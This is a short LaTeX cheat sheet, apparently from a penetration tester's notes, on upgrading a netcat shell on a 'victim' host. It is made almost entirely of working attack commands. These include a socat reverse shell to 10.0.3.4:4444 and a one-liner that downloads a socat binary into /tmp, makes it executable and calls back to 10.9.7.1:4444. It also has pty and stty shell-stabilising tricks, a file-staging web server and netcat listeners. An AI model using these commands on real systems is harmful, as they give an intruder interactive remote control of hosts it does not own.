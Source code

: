 \documentclass[12pt,a4paper]{scrartcl}
\begin{document}
\subsection{Upgrade your netcat shell}
Python pty module:
\begin{lstlisting}
	python -c 'import pty; pty.spawn("/bin/bash")'
\end{lstlisting}
If you the victim doesn't have python installed:
\begin{lstlisting}
	/usr/bin/script -qc /bin/bash /dev/null
\end{lstlisting}
With socat:
Listener:
\begin{lstlisting}
	socat file:`tty`,raw,echo=0 tcp-listen:4444
\end{lstlisting}
Victim:
\begin{lstlisting}
	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
\end{lstlisting}
If socat isn't installed you can try to get a standalone binary:
\begin{lstlisting}
	wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.9.7.1:4444
\end{lstlisting}
With magic:
\begin{lstlisting}
	python -c 'import pty; pty.spawn("/bin/bash")'
	CTRL-Z
	stty raw -echo
	fg
	reset
	export SHELL=bash
	export TERM=xterm256-color
	stty rows 38 columns 116
\end{lstlisting}

\subsection{Setting up a simple webserver}
Use this to load files on a other machine. The webservers is hosted in the directory the shell is.
\begin{lstlisting}
	python3 -m http.server 1337
\end{lstlisting}


\section{Useful Commands}
\subsection{Netcat}
To listen a port
\begin{lstlisting}
	nc -lnvp 1234
\end{lstlisting}
To send data to a port
\begin{lstlisting}
	echo hello | nc <ip> 1234
\end{lstlisting}
\end{document}
